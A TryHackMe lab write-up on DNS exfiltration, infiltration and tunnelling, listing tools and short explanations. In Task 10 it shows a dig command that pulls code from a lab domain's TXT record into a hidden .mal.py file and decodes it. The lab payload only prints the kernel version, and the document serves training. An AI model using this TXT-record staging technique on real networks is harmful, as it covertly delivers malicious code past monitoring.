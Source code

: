 # Room
https://tryhackme.com/room/django

# Task 1 - Intro
Examine DNS exfiltration and infiltration

# Task 2 - Installation
Tools used for this room
*  https://github.com/kleosdc/dns-exfil-infil
*  https://github.com/yarrick/iodine
*  https://www.wireshark.org/download.html

# Task 3 - Custom Public DNS Server
Walkthrough from STÖK
* https://www.youtube.com/watch?v=p8wbebEgtDk

# Task 4 - What is DNS?
DNS - Domain Name System - resolves domain names with IP addresses.  DNS servers are distributed around the world and translate something.com into an IP address.  DNS root name servers sit at the top of the DNS hierarchy.  Below the root servers are the TLD servers.  Below them are the actual domain servers

Resources
* https://www.cloudflare.com/learning/dns/glossary/dns-root-server/
* https://www.cloudflare.com/learning/dns/glossary/dns-root-server/
* https://www.cloudflare.com/learning/dns/glossary/dns-zone/
* https://www.iana.org/domains/root/servers
* https://www.cloudflare.com/learning/dns/dns-records/

# Task 5 - What is DNS Exfiltration?
DNS Exfiltration is a cyberattack via DNS with manual and automatted attacks.  Data exfiltration through DNS allows an attacker to transfer a large volume of data that looks like normal DNS traffic.

# Task 6 - DNS Exfiltration - Demo
Demo resources
* https://github.com/kleosdc/dns-exfil-infil/blob/main/securecorp.txt
* https://github.com/kleosdc/dns-exfil-infil/blob/main/packety.py
* https://github.com/kleosdc/dns-exfil-infil/blob/main/packetyGrabber.py

# Task 7 - DNS Exfiltration - Practice
SSH to the practice VM and run the commands

tshark
```
tshark -r [filename].pcap -T fields -e dns.qry.name
```

# Task 8 - What is DNS Infiltration
Infiltration defines the process where malicious code is ran to manipulate DNS servers, primarily used for dropping or malware staging, TXT records are usually used to infiltrate data into a network

# Task 9 - DNS Infiltration - Demo
Resources
* https://github.com/kleosdc/dns-exfil-infil

# Task 10 - DNS Infiltration - Practice
SSH to the practice VM and run the commands

grab TXT record
```
dig +short code.badbaddoma.in TXT | sed -e 's/\"//g' > .mal.py
```
run decoder
```
python3 ~/dns-exfil-infil/packetySimple.py
```
cat decoded output
```
cat .mal.py
import os; print(os.uname()[2])
```
grab flag
```
python -c 'import os; print(os.uname()[2])'
```

# Task 11 - DNS Tunneling
DNS is rarely monitored and can be used to tunnel other traffic

Tools
* https://code.kryo.se/iodine/

# Task 12 - End